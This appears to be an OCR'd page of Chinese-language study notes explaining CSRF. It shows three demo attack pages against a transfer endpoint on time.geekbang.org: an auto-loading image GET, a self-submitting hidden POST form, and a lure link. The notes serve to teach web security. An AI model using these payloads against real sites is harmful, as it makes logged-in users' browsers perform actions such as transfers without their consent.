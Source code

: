 ## 14-CSRF(Cross-site request forgery 跨站请求伪造) 攻击：陌⽣链接不要随便点

1. CSRF 攻击
   - 利用用户的登录态，通过第三方的站点做一些坏事
2. CSRF 攻击的方式

   1. 自动发起 GET 请求

   ```html
   <!DOCTYPE html>
   <html>
     <body>
       <h1>⿊客的站点：CSRF攻击演⽰</h1>
       <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100" />
     </body>
   </html>
   ```

   2. 自动发起 POST 请求

   ```html
   <!-- 表单自动提交 -->
   <!DOCTYPE html>
   <html>
     <body>
       <h1>⿊客的站点：CSRF攻击演⽰</h1>
       <form
         id="hacker-form"
         action="https://time.geekbang.org/sendcoin"
         method="POST"
       >
         <input type="hidden" name="user" value="hacker" />
         <input type="hidden" name="number" value="100" />
       </form>
       <script>
         document.getElementById("hacker-form").submit();
       </script>
     </body>
   </html>
   ```

   3. 引诱⽤⼾点击链接

   ```html
   <div>
     <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg />
     <a
       href="https://time.geekbang.org/sendcoin?user=hacker&number=100"
       taget="_blank"
     >
       点击下载美⼥照⽚
     </a>
   </div>
   ```

